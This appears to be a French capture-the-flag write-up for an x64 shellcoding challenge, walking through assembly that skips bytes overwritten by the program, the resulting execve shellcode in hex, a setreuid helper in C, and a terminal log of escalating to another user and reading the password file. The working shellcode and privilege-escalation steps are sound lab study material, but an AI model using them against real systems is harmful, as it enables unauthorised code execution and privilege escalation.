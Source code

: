# ELF x64 - Shellcoding - Sheep warmup

## 25 Points

### Un petit saute-moutons pour s’échauffer

# Énoncé

Le programme suivant exécutera le shellcode que vous lui fournirez ... après que des moutons s’installent dedans !

## Solution
L'objectif est de trouver un moyen d'afficher le contenu du fichier ~/.passwd. Le problème étant qu'il n'est lisible que par une personne avec le rôle challenge-ch12-cracked (1155), or on a le rôle challenge-ch12 (1154).
On nous un fichier ch12.s, qui est un code en assembleur 64-bits et un exécutable ch12 qui est le fichier ch12.s compilé. Lorsque l'on lance ch12, on tombe sur un prompt qui nous demande d'envoyer un input. On va donc prendre cela comme une faille et commencer à regarder comment est-ce qu'on pourrait faire pour qu'à partir de cet input, on puisse faire cat .passwd.

Le premier obstacle est que lorsque que l'on va donner une string en input, on va avoir un mouton qui bêle. Si on regarde bien dans le code, on va s'aperçevoir que les bytes 2 à 9 sont rempli par des "BEEEH":

```s
#  Setting up the land (the shellcode)  #
smov    $SYS_READ,      r_syscall
smov    $STDIN,         r_arg1
movq    $land,          r_arg2
smov    $LANDSIZE,      r_arg3
syscall
```

Il faut donc trouver un moyen de contourner cela.
Pour remplir toutes ces conditions, on va tout d'abord coder un fichier /tmp/new/shell.s dans lequel on va faire ceci:

```s
.section .text
.globl _start
_start:
    jmp skip_instructions
    nop
    nop
    nop
    nop
    nop
    nop
    nop

skip_instructions:
    push $0x3b
    pop %rax
    xor %rdx, %rdx
    movabs $0x68732f6e69622f2f, %r8    
    shr $0x8, %r8                    
    push %r8
    mov %rsp, %rdi
    push %rdx
    push %rdi
    mov %rsp, %rsi
    syscall
    push $0x3c
    pop %rax
    xor %rdi, %rdi
    syscall
```

Ce code fait tout d'abord un jump par dessus les 7 bytes que l'on veut skip, et rempli les rempli d'instruction de 1 byte: nop. En suite, il va faire execve("/bin/sh"). On le compile et on récupère les bytes de ce fichier:

```bash
cc -Wall -m64 -nostdlib -c shell.s
ld -N -o shell shell.o
objdump -d shell
```
Puis on fait une ligne de commande ou l'objectif est d'envoyé test.s en hexadécimal en tant qu'input:

```bash
echo -ne "\xeb\x07\x90\x90\x90\x90\x90\x90\x90\x6a\x3b\x58\x48\x31\xd2\x49\xb8\x2f\x2f\x62\x69\x6e\x2f\x73\x68\x49\xc1\xe8\x08\x41\x50\x48\x89\xe7\x52\x57\x48\x89\xe6\x0f\x05\x6a\x3c\x58\x48\x31\xff\x0f\x05" | ./ch12
```

Là, on rencontre un problème, le programme se ferme instantanemment. Pour éviter cela, on va changer la ligne de commande et rajouter ; cat pour que le shell trouve une entrée standard pour qu'il puisse se runva donc :

```bash
(echo -ne "\xeb\x07\x90\x90\x90\x90\x90\x90\x90\x6a\x3b\x58\x48\x31\xd2\x49\xb8\x2f\x2f\x62\x69\x6e\x2f\x73\x68\x49\xc1\xe8\x08\x41\x50\x48\x89\xe7\x52\x57\x48\x89\xe6\x0f\x05\x6a\x3c\x58\x48\x31\xff\x0f\x05" ; cat) | ./ch12
```

A ce moment là, on a bien un shell qui se lance, le problème est que l'on se retrouve avec le mauvais rôle, on est encore challenge-ch12. Il faut donc trouver un moyen de pour faire un setuid(1155). Pour pouvoir faire cela, on va créer une shell.c dans lequel on va faire setreuid(1155, 1155), puis lancer un shell /bin/bash:

```c
#include <stdlib.h>
#include <unistd.h>

int main(void)
{
   setreuid(1155, 1155); // 1155 is challenge-ch12-cracked, might need to be modified for your user
   system("/bin/bash");

   return 0;
}
```
en suite, on le compile:
```bash
gcc -o aa shell.c
```

Et ici, on va chercher à le compiler avec autant de lettre que sh pour que lorsque l'on va l'appeler dans shell.s, on ne dépasse pas les 8 octets au niveau de la string. Pour cela, il faudrat aussi faire:
```bash
mv aa /tmp
```

On va donc remplacer dans shell.s, /bin/sh par /tmp/aa, ce qui donne:

```s
movabs $0x68732f6e69622f2f, %r8 #/bin/sh -> movabs $0x61612f706d742f2f, %r8 # /tmp/aa
```

on recompile tout ça, puis faire l'objdump pour récupére la string en hexadécimal et pouvoir lancer la ligne de commande:

```bash
programmation-ch12@challenge01:~$ (echo -ne "\xeb\x07\x90\x90\x90\x90\x90\x90\x90\x6a\x3b\x58\x48\x31\xd2\x49\xb8\x2f\x2f\x74\x6d\x70\x2f\x61\x61\x49\xc1\xe8\x08\x41\x50\x48\x89\xe7\x52\x57\x48\x89\xe6\x0f\x05\x6a\x3c\x58\x48\x31\xff\x0f\x05" ;cat) | ./ch12
===== Basic Shellcode Executor =====
Input shellcode: ls
Makefile  ch12  ch12.s
id
uid=1155(programmation-ch12-cracked) gid=1154(programmation-ch12) groups=1154(programmation-ch12),100(users)
cat .passwd
[censorship]
exit
```